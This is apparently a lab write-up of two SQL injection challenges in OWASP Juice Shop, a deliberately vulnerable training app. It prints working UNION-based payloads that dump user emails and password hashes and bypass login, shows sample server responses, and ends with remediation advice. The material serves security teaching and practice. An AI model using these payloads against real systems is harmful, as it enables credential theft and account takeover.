


# SQL Injection Report

This report describes two SQL injection (SQLi) vulnerabilities discovered in the OWASP Juice Shop web application.

## Tools

- OWASP Juice Shop (Docker image) v19.0.0
- Burp Suite

## Challenge #1: Extracting data

> **Description**: Exploit a SQL injection vulnerability to retrieve sensitive data.

### Preliminary steps

1. Start OWASP Juice Shop.

### Discovery

1. Open the browser developer tools and navigate to the Network tab.
2. Browse the application and locate an AJAX request used to retrieve product data.
3. The request is sent to a REST endpoint and includes a user-controlled parameter.
4. The parameter appears to be unsanitized, so it is tested for SQL injection.
5. The application returns data from the database after injecting a payload, confirming an in-band SQLi vulnerability.
6. 

> The web application is vulnerable to SQL injection because user input is not properly sanitized before being included in the SQL query.

### Exploitation

To understand the database schema and column types, the REST endpoint was modified to retrieve schema information.



The following payload was injected into the vulnerable parameter:

```sql
banana%'))  UNION SELECT 1,2,3,id ||'~'|| username ||'~'|| email ||'~'|| password,5,6,7,8,9 FROM Users --">
```

This payload returns query results where the fourth response field contains concatenated user data: `id`, `username`, `email`, and `password`.

Example response:

```json
{"id":1,"name":2,"description":3,"price":"13~~bjoern@owasp.org~9283f1b2e9669749081963be0462e466","deluxePrice":5,"image":6,"createdAt":7,"updatedAt":8,"deletedAt":9}
```

### Impact

- Confidential user data was exposed, including user IDs, usernames, emails, and password hashes.
- This demonstrates a severe in-band SQL injection vulnerability in the Juice Shop REST API.

## Challenge #2: Bypassing authentication

> **Description**: Bypass authentication by exploiting SQL injection in the login workflow.

### Preliminary steps

1. Start OWASP Juice Shop.
2. Use Burp Suite to intercept requests.
3. Confirm the database is SQLite and the login form is backed by SQL.

### Discovery

1. Test the login form with a single quote in the email field: `'
2. The server returns a SQL error, indicating the login query is vulnerable to SQL injection.
3. The error response includes the underlying SQL statement:

```json
{
  "error": {
    "message": "SQLITE_ERROR: near \"' AND password = '\": syntax error",
    "sql": "SELECT * FROM Users WHERE email = '' ' AND password = '7215ee9c7d9dc229d2921a40e899ec5f' AND deletedAt IS NULL"
  }
}
```

> A successful SQL injection can be confirmed without retrieving additional information, simply by observing the query structure and error handling.

### Exploitation

The following payload was injected into the email field. Columns set to `NULL` are included only to satisfy the expected SELECT column count.

```sql
mal' UNION SELECT 15, '', 'acc0unt4nt@juice-sh.op', 'psw', 'accounting', NULL, NULL, NULL, '', 1, NULL, NULL, NULL FROM Users--
```

Any password value may be used in the password field because the injection bypasses the original authentication check.

The server response confirms successful authentication and returns a valid JWT token:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

{"authentication":{"token":"<redacted>","bid":8,"umail":"acc0unt4nt@juice-sh.op"}}
```

### Impact

- Authentication can be bypassed, allowing an attacker to impersonate an existing user.
- The login endpoint is vulnerable to UNION-based SQL injection.

## Remediation

- Use parameterized queries or prepared statements for all SQL queries.
- Do not concatenate user input directly into SQL statements.
- Implement input validation and proper escaping for database inputs.
- Use an ORM or query builder that enforces safe SQL generation.
- Prefer stored procedures or safe query APIs when appropriate, but only with parameterized input.
